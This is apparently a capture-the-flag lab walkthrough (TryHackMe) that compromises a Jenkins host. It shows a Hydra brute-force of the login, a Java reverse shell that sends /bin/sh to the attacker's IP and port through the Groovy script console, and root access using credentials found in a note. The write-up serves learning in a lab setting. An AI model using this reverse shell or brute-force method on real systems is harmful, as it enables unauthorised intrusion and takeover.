 Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-08 20:03:03
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://127.0.0.1:8080/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:F=Invalid username or password
[8080][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-08 20:04:11

String host="10.23.80.154";
int port=8044;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

So jenkins has a groovy script console so I found this reverse shell on github and stumbled upon the root credentials but I can't sudo su to just login as root it says I can only login as terminal 


ls opt
note.txt
cat opt/note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
sudo su

huh I wonder how we can get in as terminal

┌──(root㉿kali)-[/home/kali]
└─# ssh root@10.10.13.105                              
root@10.10.13.105's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Mon Aug  3 19:59:17 2020 from 10.6.2.56
root@internal:~# ls
root.txt  snap
root@internal:~# cat root.txt
THM{d0ck3r_d3str0y3r}
